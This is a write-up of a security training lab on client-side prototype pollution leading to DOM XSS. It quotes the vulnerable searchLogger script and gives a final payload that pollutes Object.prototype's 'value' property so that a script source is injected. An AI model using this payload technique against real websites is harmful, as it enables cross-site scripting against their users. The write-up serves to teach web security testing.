

# Client-side prototype pollution via browser APIs
# Objective
This lab is vulnerable to DOM XSS via client-side prototype pollution. The website's developers have noticed a potential gadget and attempted to patch it. However, you can bypass the measures they've taken.

To solve the lab:
1. Find a source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget property that allows you to execute arbitrary JavaScript.
3. Combine these to call `alert()`.

You can solve this lab manually in your browser, or use DOM Invader to help you.

# Solution
## Analysis
The website logs parameters send in search request.

||
|:--:| 
| *Logger request with JSON data* |
||
| *Used scripts - Logger script* |

Property `transport_url` is configured to be unconfigurable and unwritable but it does not specify `value` property.
```
Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
```

Source code of `searchLoggerConfigurable.js`:
```js
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString()), transport_url: false};
    Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}

window.addEventListener("load", searchLogger);
```

## Exploitation
### Manual exploitation
Attacker can deliver exploit by specifying `value` property of `transport_url` - `value` can be used as gadget.

||
|:--:| 
| *Test for prototype pollution* |
||
| *Rendered script on page with test payload* |
||
| *Rendered script on page with final payload* |

Final payload:
```
/?__proto__[value]=data:,alert(1);
```

### DOM Invader exploitation

||
|:--:| 
| *DOM Invader - Detected sources* |
||
| *DOM Invader - Scanning for gadgets* |
||
| *DOM Invader - Scan results* |
||
| *DOM Invader - Final exploit* |
